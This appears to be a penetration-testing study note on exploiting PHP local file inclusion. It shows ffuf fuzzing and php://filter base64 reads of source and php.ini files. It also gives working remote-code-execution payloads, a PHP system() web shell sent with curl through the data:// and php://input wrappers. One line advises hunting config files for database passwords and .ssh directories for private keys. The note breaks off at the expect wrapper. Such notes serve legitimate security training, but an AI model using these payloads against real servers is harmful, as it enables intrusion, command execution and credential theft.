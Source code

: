 - **If we have a LFI and the site using appended extension to the user input and we want to read the local PHP files**:
	1. Fuzzing to find PHP files.
	   We are not restricted to pages with HTTP response code `200`, as we have local file inclusion access, so we should be scanning for all codes, including `301`, `302` and `403` pages, and we should be able to read their source code as well.
		``` bash
		ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
		configure               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 69ms]
		```
	2.  We should use the payload `configure`: `www.example.com/index.php?lang=configure`
		1. If the web app uses a [[#Read, Write and Execute Functions]] that executes the content of the file, it won't show the file content.
		2. Using PHP wrapper with convert filter to encode the content of the file so it doesn't get executed
		   `www.example.com/index.php?lang=php://filter/read=convert.base64-encode/resource=config`
		3. Decode the output
			``` bash
			echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
			```
---
## From LCI to RCE
> [!Note]
> Search for DB password in `config.php` and check for password reuse.
> Check `.ssh` directory on each user home directory for their private keys `id_rsa`.
- **PHP wrappers**:
	- [Data](https://www.php.net/manual/en/wrappers.data.php)
		- Check PHP configurations to see if (`allow_url_include`) setting is enabled.
			- `/etc/php/X.Y/apache2/php.ini` for Apache (`X.Y` is the PHP version installed) 
			- `/etc/php/X.Y/fpm/php.ini` for Nginx
				``` bash
				curl "http://URL/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
				# Then decode the output
				echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
				```
			- Encode our payload then send it with data wrapper `data://text/plain;base64`
				``` bash
				echo '<?php system($_GET["cmd"]); ?>' | base64
				PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
				curl -s 'http://URL/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep id
				```
	- [Input](https://www.php.net/manual/en/wrappers.php.php)
		- Check PHP configurations to see if (`allow_url_include`) setting is enabled.
		- Send the payload as a POST parameter, so the vulnerable parameter must accept POST request.
			``` bash
			curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://URL/index.php?language=php://input&cmd=id"
			# If the vulnerable function doesn't accept GET parameters, hardcode the command directly in the payload
			curl -s -X POST --data '<?php system("id"); ?>' "http://URL/index.php?language=php://input"
			```
	- [Expect](https://www.php.net/manual/en/wrappers.expect.php)
		- Expect wrapper is an external wrapper so it has to be installed and enabled manually.
		- Check PHP configurations like above but `grep expect`, we would get `extension=expect` as result if it's there.
		- Use expect module to gain RCE